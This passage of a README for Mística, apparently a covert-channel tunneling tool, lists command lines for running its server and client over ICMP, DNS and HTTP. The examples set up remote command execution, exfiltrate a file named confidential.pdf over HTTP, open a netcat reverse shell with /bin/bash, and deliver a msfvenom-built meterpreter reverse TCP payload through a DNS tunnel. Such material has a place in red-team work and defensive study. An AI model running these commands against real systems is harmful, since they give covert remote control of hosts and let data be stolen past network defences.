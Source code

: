 - Then, run: `sysctl -p` to take effect.

Now, in order to illustrate the different methods of ICMP encapsulation, the IO redirection overlay module (`io`) will be used for every example.

- ICMP Data Section, using interface eth0:
  - Mística Server: `./ms.py -m io:icmp -k "rc4testkey" -s "--iface eth0"`
  - Mística Client:  `./mc.py -m io:icmp -k "rc4testkey" -w "--hostname x.x.x.x"`

### Shell and IO

You can get remote command execution using mística over a custom channel, by combining `io` and `shell` modules. Examples:

- Executing commands on client system over DNS using TXT query.
    - Mística Server: `sudo ./ms.py -m io:dns -k "rc4testkey" -s "--hostname x.x.x.x  --port 53"`
    - Mística Client: `./mc.py -m shell:dns -k "rc4testkey" -w "--hostname x.x.x.x --port 53"`

- Executing commands on server system over HTTP using GET requests:
    - Mística Server: `./ms.py -m shell:http -k "rc4testkey" -s "--hostname x.x.x.x  --port 8000"`
    - Mística Client: `./mc.py -m io:http -k "rc4testkey" -w "--hostname x.x.x.x --port 8000"`

- Executing commands on client system over ICMP:
    - Mística Server: `./ms.py -m io:icmp -k "rc4testkey" -s "--iface eth0"`
    - Mística Client: `./mc.py -m shell:icmp -k "rc4testkey" -w "--hostname x.x.x.x"`

- Exfiltrating files via HTTP using the IO module and redirect operators:
    - Mística Server: `./ms.py -m io:http -s "--hostname 0.0.0.0 --port 80" -k "rc4testkey" -vv > confidential.pdf`
    - Mística Client (**important to run from the cmd**): `type confidential.pdf | E:\Mistica\WPy64-3741\python-3.7.4.amd64\python.exe .\mc.py -m io:http -w "--hostname x.x.x.x --port 80" -k "rc4testkey" -vv`

### Port forwarding with tcpconnect and tcplisten

- Remote port forwarding (seen from server) over HTTP. Address `127.0.0.1:4444` on the client will be forwarded to address `127.0.0.1:5555` on the server. There must be already something listening on `5555`.
    - Mística Server: `./ms.py -m tcpconnect:http -k "rc4testkey" -s "--hostname x.x.x.x  --port 8000" -o "--address 127.0.0.1 --port 5555"`
    - Mística Client: `./mc.py -m tcplisten:http -k "rc4testkey" -w "--hostname x.x.x.x --port 8000" -o "--address 127.0.0.1 --port 4444"`
- Local port forwarding (seen from server) over DNS. Address `127.0.0.1:4444` on the server will be forwarded to address `127.0.0.1:5555` on the client. There must be already something listening on `5555`.
    - Mística Server: `sudo ./ms.py -m tcplisten:dns -k "rc4testkey" -s "--hostname x.x.x.x  --port 53" -o "--address 127.0.0.1 --port 4444"`
    - Mística Client: `./mc.py -m tcpconnect:dns -k "rc4testkey" -w "--hostname x.x.x.x --port 53" -o "--address 127.0.0.1 --port 5555"`
- HTTP reverse shell using netcat on linux client.
    - Netcat Listener (on server): `nc -nlvp 5555`
    - Mística Server: `./ms.py -m tcpconnect:http -k "rc4testkey" -s "--hostname x.x.x.x  --port 8000" -o "--address 127.0.0.1 --port 5555"`
    - Mística Client: `./mc.py -m tcplisten:http -k "rc4testkey" -w "--hostname x.x.x.x --port 8000" -o "--address 127.0.0.1 --port 4444"`
    - Netcat Shell (on linux client): `ncat -nve /bin/bash 127.0.0.1 4444`
- Running `meterpreter_reverse_tcp` (linux) over DNS using port forwarding. Payload generated with `msfvenom -p linux/x64/meterpreter_reverse_tcp LPORT=4444 LHOST=127.0.0.1 -f elf -o meterpreter_reverse_tcp_localhost_4444.bin`
    - Run `msfconsole` on server and launch handler with: `handler -p linux/x64/meterpreter_reverse_tcp -H 127.0.0.1 -P 5555`
    - Mística Server: `sudo ./ms.py -m tcpconnect:dns -k "rc4testkey" -s "--hostname x.x.x.x  --port 53" -o "--address 127.0.0.1 --port 5555"`
    - Mística Client: `./mc.py -m tcplisten:dns -k "rc4testkey" -w "--hostname x.x.x.x --port 53" -o "--address 127.0.0.1 --port 4444"`
    - Run meterpreter on client: `./meterpreter_reverse_tcp_localhost_4444.bin`